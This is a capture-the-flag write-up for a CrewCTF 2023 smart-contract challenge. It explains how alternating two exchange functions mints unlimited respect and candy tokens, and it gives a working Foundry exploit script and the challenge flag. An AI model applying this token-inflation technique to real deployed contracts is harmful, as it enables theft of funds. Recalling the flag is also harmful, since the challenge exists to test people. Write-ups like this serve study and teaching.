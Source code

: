 ```yaml
---
title: Blockchain - infinite
description: 2023 | CrewCTF | Web3
tags:
    - smart contract
---
```


## Description

Infinite respect.

> nc infinite.chal.crewc.tf 60001

[:material-download: `infinite.tar.gz`](static/infinite.tar.gz)

## Solution

- To solve the challenge, we need to store more than 50 respect tokens in the `fancyStore` contract

    ```js
    function isSolved() public view returns (bool) {
        return STORE.respectCount(CREW.receiver())>=50 ;
    }
    ```

- The `respectToken` and `candyToken` contracts do not contain any significant information, as they are simple ERC20 token contracts that allow the owner to call the `mint()` and `burn()` functions
- The `crewToken` contract with a `mint()` function that can only be called once is the entry point

    ```js
    function mint() external {
        require(!claimed , "already claimed");
        receiver = msg.sender;
        claimed = true;
        _mint(receiver, 1);
    }
    ```

- Next, we can exchange 1 crew token for 10 candies

    ```js
    function verification() public payable{
        require(crew.balanceOf(msg.sender)==1, "You don't have crew tokens to verify");
        require(crew.allowance(msg.sender, address(this))==1, "You need to approve the contract to transfer crew tokens");
        
        crew.transferFrom(msg.sender, address(this), 1);

        candy.mint(msg.sender, 10);
    }
    ```

- The candy tokens can be exchanged for respect tokens through `fancyStore.sellCandies()` or `localGang.gainRespect()`. But these two functions have a slight difference. The `sellCandies()` function burns candy tokens and transfers the respect tokens stored in the contract to the msg.sender, while the `gainRespect()` function transfers the candy tokens from the msg.sender and **mint** respect tokens to msg.sender. Thus, the total supply of respect tokens can be increased through `gainRespect()`. Similarly, we can increase the total supply of candy tokens through `fancyStore.buyCandies()`
- Starting with 10 candy tokens, we can first exchange them for 10 respect tokens and increase `candyCount` through `localGang.gainRespect()`. Then, buy 10 candies and increase `respectCount` through `fancyStore.buyCandies()`. At this point, we have obtained an additional 10 candies and transferred 10 respect tokens to the `fancyStore` contract XD Repeat these steps until `STORE.respectCount(CREW.receiver())` reaches the desired threshold

### Script

```js
/// forge script script/Infinite.s.sol --private-key $PRIVATE_KEY --rpc-url $RPC_URL --sig "run(address)" $INSTANCE_ADDR --broadcast
contract InfiniteScript is Script {

    function run(address instance) public {
        vm.startBroadcast();
        Setup setup = Setup(instance);
        crewToken crew = setup.CREW();
        respectToken respect = setup.RESPECT();
        candyToken candy = setup.CANDY();
        fancyStore store = setup.STORE();
        localGang gang = setup.GANG();

        crew.mint();

        crew.approve(address(store), 1);
        store.verification();

        candy.approve(address(gang), 50);
        respect.approve(address(store), 50);
        for (uint i; i < 5; ++i) {
            gang.gainRespect(10);
            store.buyCandies(10);
        }
        vm.stopBroadcast();
    }
}
```

### Flag

> crew{inf1nt3_c4n9i3s_1nfinit3_r3s9ect}
